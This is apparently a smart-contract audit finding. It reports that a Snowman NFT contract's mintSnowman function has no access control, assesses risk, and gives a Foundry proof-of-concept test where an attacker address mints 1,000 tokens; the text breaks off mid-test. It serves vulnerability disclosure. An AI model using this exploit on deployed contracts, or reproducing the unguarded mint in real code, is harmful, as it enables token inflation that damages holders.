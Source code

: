 ```Solidity
// Root cause in the codebase
function mintSnowman(address receiver, uint256 amount) external {
@>  // NO ACCESS CONTROL - Any address can call this function
   for (uint256 i = 0; i < amount; i++) {
       _safeMint(receiver, s_TokenCounter);

       emit SnowmanMinted(receiver, s_TokenCounter);

       s_TokenCounter++;
   }
@>  // NO VALIDATION - No checks on amount or caller authorization
}
```

## Risk

**Likelihood**:

* The vulnerability will be exploited as soon as any malicious actor discovers the contract address, since the function is publicly accessible with no restrictions

* Automated scanning tools and MEV bots continuously monitor new contract deployments for exploitable functions, making discovery inevitable

**Impact**:

* Complete destruction of tokenomics through unlimited supply inflation, rendering all legitimate NFTs worthless

* Total compromise of the airdrop mechanism, allowing attackers to mint millions of tokens and undermine the project's credibility and economic model

## Proof of Concept

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console2} from "forge-std/Test.sol";
import {Snowman} from "../src/Snowman.sol";

contract SnowmanExploitPoC is Test {
    Snowman public snowman;
    address public attacker = makeAddr("attacker");
    
    string constant SVG_URI = "data:image/svg+xml;base64,PHN2Zy4uLi4+";
    
    function setUp() public {
        snowman = new Snowman(SVG_URI);
    }
    
    function testExploit_UnrestrictedMinting() public {
        console2.log("=== UNRESTRICTED MINTING EXPLOIT ===");
        console2.log("Initial token counter:", snowman.getTokenCounter());
        console2.log("Attacker balance before:", snowman.balanceOf(attacker));
        
        // EXPLOIT: Anyone can mint unlimited NFTs
        vm.prank(attacker);
        snowman.mintSnowman(attacker, 1000); // Mint 1K NFTs
        
        console2.log("Final token counter:", snowman.getTokenCounter());
        console2.log("Attacker balance after:", snowman.balanceOf(attacker));
        
        // Verify exploit success
        assertEq(snowman.balanceOf(attacker), 1000);
```